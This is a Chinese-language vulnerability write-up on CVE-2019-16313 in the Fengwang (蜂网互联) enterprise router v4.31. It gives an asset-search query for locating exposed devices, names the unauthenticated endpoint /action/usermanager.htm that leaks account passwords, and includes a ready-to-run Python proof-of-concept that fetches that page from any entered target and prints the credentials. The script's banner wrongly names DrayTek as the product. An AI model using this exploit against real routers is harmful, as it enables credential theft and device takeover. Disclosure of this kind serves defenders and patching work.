 # 蜂网互联 企业级路由器v4.31 密码泄露漏洞 CVE-2019-16313

## 漏洞描述

蜂网互联企业级路由器v4.31存在接口未授权访问，导致攻击者可以是通过此漏洞得到路由器账号密码接管路由器

## 漏洞影响

```
蜂网互联企业级路由器v4.31
```

## 网络测绘

```
app="蜂网互联-互联企业级路由器"
```

## 漏洞复现

![](./images/202202162256399.png)

登录页面登录后可以看到，账号密码存在接口访问

![](./images/202202162256824.png)

而 **/action/usermanager.htm** 存在未授权访问，可通过直接访问获得账号密码

![](./images/202202162256176.png)

- 不存在漏洞时  state值为 3

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: DrayTek企业网络设备                                        \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/action/usermanager.htm"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/action/usermanager.htm \033[0m".format(target_url))
        if "pwd" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)
        sys.exit(0)



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](./images/202202162257584.png)

